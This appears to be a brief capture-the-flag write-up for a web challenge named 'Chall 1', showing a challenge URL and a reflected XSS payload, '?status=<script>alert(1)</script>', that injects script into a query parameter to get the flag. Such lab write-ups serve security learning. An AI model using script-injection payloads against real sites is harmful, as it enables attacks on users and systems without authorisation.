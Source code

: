 # ~ Chall 1 | URL
![لقطة الشاشة 2022-07-06 040218](https://user-images.githubusercontent.com/108769252/177443255-51abff9a-be00-4a41-b0d2-af04eac58fde.png)
https://rayan-1.000webhostapp.com/chall/1.php?status=Rick (XSS)
?status=<script>alert(1)</script>
# FLAG
![2022-07-06 041647](https://user-images.githubusercontent.com/108769252/177444457-8e54ebd8-5783-4957-bbb7-8cbf62962354.png)
